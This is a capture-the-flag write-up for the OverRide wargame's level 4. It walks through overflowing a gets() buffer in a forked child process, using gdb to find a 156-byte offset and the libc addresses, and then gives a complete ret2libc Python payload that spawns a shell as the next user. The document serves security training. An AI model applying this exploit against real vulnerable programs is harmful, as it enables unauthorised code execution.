 # Level 4

This program asks us for some shellcode after a buffer overflow through gets, let's (not) oblige.

The subtility this time is that a lot of the stuff happens in a child process. Let's tell gdb to follow the child:
```shell
(gdb) set follow-fork-mode child
```

Now we'll find the offset of `eip` with our [usual suspect](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```shell
(gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
Starting program: /home/users/level04/level04 <...
[...]
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 31421]
0x41326641 in ?? ()
```
Our offset is 156.

Now let's do a ret2libc attack to be contrarians. [Here's a comprehensive explanation of it I've written](https://gist.github.com/selfsigned/0a836f3d98efc512509cc042b449160a)
```shell
(gdb) p system
$1 = {
    <text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {
    <text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 31421
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
[...]
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
```
Okay, `system -> 0xf7e6aed0` `exit -> 0xf7e5eb70` `"/bin/sh" -> 0xf7f897ec`

```shell
# Padding + system + exit + "/bin/sh"
level04@OverRide:~$ (python -c 'print "B"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat) | ./level04 
Give me some shellcode, k
whoami
level05
```
Yeet!
